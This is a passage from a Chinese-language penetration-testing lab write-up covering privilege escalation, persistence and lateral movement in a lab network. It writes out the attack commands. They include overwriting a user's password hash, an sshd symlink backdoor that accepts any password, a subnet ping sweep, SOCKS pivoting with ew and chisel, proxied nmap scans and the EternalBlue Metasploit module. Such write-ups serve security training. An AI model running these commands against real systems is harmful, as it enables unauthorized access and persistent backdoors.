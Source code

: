 首先本地生成密码`perl -e 'print crypt("bmth", "salt")'`
![](https://img-blog.csdnimg.cn/ccea0691adb3440385dab885a26d0428.png)
直接把ubuntu的密码修改为我们的密码 `sam0c/mLMqJTU`
![](https://img-blog.csdnimg.cn/fd289491690e44a08df40e30eee158c4.png)
最后ssh连接即可，同理可以直接su提权到root权限
![](https://img-blog.csdnimg.cn/b5c428cc14d640f0a0c366b8b6b33021.png)

### 内网渗透
拿到root权限后需要进行权限维持，具体可参考文章：[Linux下常见的权限维持方式](https://zhuanlan.zhihu.com/p/116030154)
#### ssh软连接
>在sshd服务配置运行PAM认证的前提下，PAM配置文件中控制标志为sufficient时只要pam_rootok模块检测uid为0即root权限即可成功认证登陆。通过软连接的方式，实质上PAM认证是通过软连接的文件名 `/tmp/su` 在 `/etc/pam.d/` 目录下寻找对应的PAM配置文件(如: /etc/pam.d/su)，任意密码登陆的核心是`auth sufficient pam_rootok.so`，所以只要PAM配置文件中包含此配置即可SSH任意密码登陆，除了su中之外还有chsh、chfn同样可以

在目标服务器上执行一句话后门：
```bash
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
```
最后使用任意密码都可登录成功
![](https://img-blog.csdnimg.cn/eec144ed15674bcea471a84a158dd035.png)
发现.bash.history，查看一下发现douser用户密码
![](https://img-blog.csdnimg.cn/dfc8abd7bff04b7fbeb96278ddd24475.png)

#### 横向移动
首先探测内网主机存活
```bash
for k in $( seq 1 255);do ping -c 1 192.168.183.$k|grep "ttl"|awk -F "[ :]+" '{print $4}'; done
```
![](https://img-blog.csdnimg.cn/be5f8256f1744fcfac8d6428b714320e.png)
##### ew
这里使用的是ew来搭建socks代理
`./ew_for_linux64 -s ssocksd -l 1234`
然后修改`/etc/proxychains.conf`为
![](https://img-blog.csdnimg.cn/abf171250c8d4b6b8c1f8de4bc5d6db0.png)
然后探测端口
```
proxychains nmap -Pn -sT -T4 -p21,22,23,25,53,80,135,139,161,389,445,1080,1433,3306,3389,6379,7001,7002,8080 192.168.183.134
proxychains nmap -Pn -sT -T4 -p21,22,23,25,53,80,135,139,161,389,445,1080,1433,3306,3389,6379,7001,7002,8080 192.168.183.130
```
![](https://img-blog.csdnimg.cn/04f9eab0ce854d4d85bb4db1211f35a6.png)
发现win7开启了135,139,445端口，DC开启了53,135,139,389,445端口

##### chisel
发现ew比较容易断开，换一个代理工具chisel试试
服务端：`./chisel_1.7.6_linux_amd64 server -p 1234 --socks5`
![](https://img-blog.csdnimg.cn/3063efa220da459ea61cd66c027c2c8c.png)
攻击端：`./chisel_1.7.6_linux_amd64 client 192.168.157.128:1234 socks`
![](https://img-blog.csdnimg.cn/b4fd2abe1be24a9788274c64b5ac1cea.png)
然后设置socks5为`127.0.0.1:1080`，代理成功
![](https://img-blog.csdnimg.cn/113e7de8a541423488253d5f31b77c86.png)
##### ms17-010
将msf设置代理，直接使用永恒之蓝攻击win7
`use exploit/windows/smb/ms17_010_eternalblue`
![](https://img-blog.csdnimg.cn/50872019eadc4e91bb5e889ed9fab34a.png)